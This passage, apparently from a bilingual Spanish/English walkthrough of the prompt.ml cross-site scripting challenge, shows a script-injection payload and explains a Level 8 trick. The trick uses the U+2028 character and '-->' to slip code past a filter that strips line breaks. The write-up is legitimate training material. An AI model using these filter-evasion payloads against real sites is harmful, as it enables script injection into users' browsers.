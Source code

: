 ### Solution
`"><script>/*#*/prompt(1/*#*/)</script>`

>[Top](#index)

## [Level 8]
:es: Aquí, podemos observar que tenemos una función comentada `// console.log...`, dentro de un `<script>` tag, tenemos capados los saltos de linea `\n` y los carriage return `\r`, nuestra misión es conseguir meter un salto de linea para meter nuestro script y a ocntinuación comentar el final del comentario, para que quede de esta manera:

```
// console.log("'\n
prompt(1)\n
// '");
```

Pero claro, no podemos ni usar `\n` ni `/` para comentar, lo que sí que podemos hacer es inyectar el unicode char de line feed `U+2028`, el cuál no es capado por el regex, y para comentar `'");" podemos usar `-->` de manera que quedaría así.

```
// console.log("'[u+2028]
prompt(1)[u+2028]
--> '");
```

:uk: We have a commented function `// console.log...`, inside a `<script>` tag, we can't use `\n` line breaks, or carriage return `\r`, our goal is to inject somehow a linebreak to break the comment (is a one liner comment), write our code, then line break again and comment the junk at the end `'");`, this way we would have something like this.

```
// console.log("'\n
prompt(1)\n
// '");
```

But we can't use neither `\n` or `/`, what we can do here is to inject the unicode values directly into the code as it will get accepted and not replaced by the regex, the unicode value for a line feed is `U+2028`, and for commenting out the junk, we can use `-->`.

This way we should have something like this

```
// console.log("'[u+2028]
prompt(1)[u+2028] 
--> '");
```

### Code
```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```


[Level 0]: http://prompt.ml/0
[Level 1]: http://prompt.ml/1
[Level 2]: http://prompt.ml/2
[Level 3]: http://prompt.ml/3
[Level 4]: http://prompt.ml/4
[Level 5]: http://prompt.ml/5
[Level 6]: http://prompt.ml/6
[Level 7]: http://prompt.ml/7
[Level 8]: http://prompt.ml/8
[Level 9]: http://prompt.ml/9
[Level A]: http://prompt.ml/10
[Level B]: http://prompt.ml/11
[Level C]: http://prompt.ml/12
[Level D]: http://prompt.ml/13
[Level E]: http://prompt.ml/14
[Level F]: http://prompt.ml/15